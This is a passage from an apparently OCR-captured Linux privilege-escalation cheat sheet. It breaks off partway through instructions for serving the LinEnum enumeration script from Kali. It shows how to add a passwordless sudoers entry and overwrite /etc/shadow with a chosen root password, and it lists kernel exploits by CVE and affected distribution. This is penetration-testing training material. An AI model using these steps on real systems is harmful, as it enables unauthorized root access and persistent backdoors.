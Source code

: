 cat /etc/ssh/sshd_config | grep PermitRootLogin
Add SUDOers If we can write arbitrary files to the host as Root, it is possible to add users to the SUDO-ers group like so (NOTE: you will need to logout and login again as myuser):
/etc/sudoers

root    ALL=(ALL:ALL) ALL
%sudo   ALL=(ALL:ALL) ALL
myuser	ALL=(ALL) NOPASSWD:ALL  
Set Root Password We can also change the root password on the host if we can write to any file as root:
/etc/shadow

printf root:>shadown
openssl passwd -1 -salt salty password >>shadow
Kernel Exploits
Based on the Kernel version, do we have some reliable exploits that can be used?

UDEV - Linux Kernel < 2.6 & UDEV < 1.4.1 - CVE-2009-1185 - April 2009

Ubuntu 8.10  
Ubunto 9.04  
Gentoo  
RDS - Linux Kernel <= 2.6.36-rc8 - CVE-2010-3904 - Linux Exploit -

Centos 4/5
perf_swevent_init - Linux Kernel < 3.8.9 (x86-64) - CVE-2013-2094 - June 2013

Ubuntu 12.04.2  
mempodipper - Linux Kernel 2.6.39 < 3.2.2 (x86-64) - CVE-2012-0056 - January 2012

Ubuntu 11.10
Ubuntu 10.04  
Redhat 6  
Oracle 6  
Dirty Cow - Linux Kernel 2.6.22 < 3.2.0/3.13.0/4.8.3 - CVE-2016-5195 - October 2016

Ubuntu 12.04
Ubuntu 14.04
Ubuntu 16.04
KASLR / SMEP - Linux Kernel < 4.4.0-83 / < 4.8.0-58 - CVE-2017-1000112 - August 2017

Ubuntu 14.04
Ubuntu 16.04
Great list here: https://github.com/lucyoa/kernel-exploits

Automated Linux Enumeration Scripts
It is always a great idea to automate the enumeration process once you understand what you are looking for.

LinEmum.sh
LinEnum is a handy method of automating Linux enumeration. It is also written as a shell script and does not require any other intpreters (Python,PERL etc.) which allows you to run it file-lessly in memory.

First we need to git a copy to our local Kali linux machine:

git clone https://github.com/rebootuser/LinEnum.git
Next we can serve it up in the python simple web server:
